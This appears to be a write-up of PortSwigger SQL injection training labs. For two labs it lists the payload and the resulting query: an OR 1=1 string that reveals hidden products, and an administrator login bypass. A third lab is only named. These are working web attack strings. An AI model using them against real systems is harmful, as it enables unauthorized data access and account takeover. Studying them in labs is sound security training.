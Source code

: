```yaml
---
title: PortSwigger SQL Injection
description: PortSwigger SQL Injection
last_update:
  date: "2025-08-08T08:00:00+08:00"
---
```


## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

| Dimension | Description                                                                 |
| --------- | --------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection#retrieving-hidden-data   |
| Lab       | https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data |

Payload

```
?category=Accessories' OR 1=1--
```

SQL

```sql
SELECT ... FROM products WHERE category = 'Accessories' OR 1=1--'
```

## Lab: SQL injection vulnerability allowing login bypass

| Dimension | Description                                                                     |
| --------- | ------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection#subverting-application-logic |
| Lab       | https://portswigger.net/web-security/sql-injection/lab-login-bypass             |

Payload

```
administrator' OR 1=1--
```

SQL

```sql
SELECT ... FROM users WHERE username = 'administrator' OR 1=1--' AND password = '123'
```

## Lab: SQL injection with filter bypass via XML encoding

| Dimension | Description                                                                                              |
| --------- | -------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection#sql-injection-in-different-contexts                   |
| Lab       | https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding |
